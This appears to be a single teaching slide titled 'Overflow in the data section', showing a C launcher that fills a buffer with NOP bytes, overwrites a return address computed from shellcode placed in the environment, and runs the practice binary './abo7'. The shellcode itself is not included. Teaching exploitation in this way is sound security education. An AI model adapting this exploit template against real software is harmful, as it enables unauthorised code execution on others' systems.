

# Overflow in the data section
Code:
	int main(int argc, char **argv) {
		char buffer[476];
		char *execargv[3]={“./abo7”, buffer, NULL};
		char *env[2] = {shellcode, NULL};
		int ret;
		ret = 0xBFFFFFFF – 4 – strlen(execargv[0] ) – 1 – strlen(shellcode);
		memset(buffer,’\x90’, 476);
		*(long *) &buffer[472] = ret;
		execve(execargv[0], execargv, env);
	}